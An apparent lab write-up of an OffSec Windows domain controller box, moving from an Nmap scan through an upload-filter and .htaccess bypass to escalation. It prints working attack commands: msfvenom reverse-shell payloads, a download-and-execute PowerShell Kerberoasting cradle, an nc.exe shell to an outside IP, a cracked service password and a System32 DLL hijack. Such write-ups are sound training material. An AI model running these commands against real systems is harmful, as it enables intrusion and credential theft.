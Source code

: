 #InProgress 
```IP
192.168.232.187
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION                                    53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus                            80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-26 10:49:36Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Nmap UDP


# Enumeration

## HTTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026125821.png?raw=true)
we bypass the filter in upload image when buying tickets by using any other extension than php
php%20 works but it doesnt execute
.ctp also works but doesnt execute
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133705.png?raw=true)
We create a windows tcp reverse shell
```
msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.187 LPORT=443 -f exe -o rev.exe
```
We overwrite the .htaccess file in order to execute the .ctp as php
```
echo "AddType application/x-httpd-php .ctp" > .htaccess
```
we upload all three files rev.exe, run.ctp and the new .htaccess
now when we execute the run.ctp. it will call rev.exe and give us a revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026134026.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133617.png?raw=true)
# PrivEsc

## Manual
we are an apache service account
we do not have access to local.txt flag
enumerating domain users we see MSSQL service account
we could ask for a kerberos ticket
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102748.png?raw=true)
with Get-SPN.ps1 we can get the SPN of the MSSQL account

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102834.png?raw=true)
```
Add-Type -AssemblyName System.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'  
iex(new-object net.webclient).downloadString('http://192.168.45.201:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```
we crack the obtained hash and we get
```
trustno1
```
Now we can enum shares again to check if it works
```
 nxc smb 192.168.232.187 -u 'svc_mssql' -p 'trustno1' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027112559.png?raw=true)

we downloads invoke-runas script
```
.\Invoke-RunasCs -Username svc_mssql -Password "trustno1" -Command "whoami"
```
```
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.201 45 -e cmd.exe"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216101223.png?raw=true)

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public
Running this exploit gives us permissions on 918 entries. Between them we have the following directory:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104138.png?raw=true)
Which previously only administrators had full control:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104229.png?raw=true)
We can hijack one of the systems dll and trigger it in order to get a reverse shell. We will do this with Printconfig.dll:
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4444 -f dll -o Printconfig.dll
```
We transfer the file to our target machine and copy it to the following directory:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
And then this dll is triggered by the following commands:
```
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
```
```
$object = [Activator]::CreateInstance($type)
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105447.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105437.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105535.png?raw=true)
## Automated

### Peass
### Mimikatz

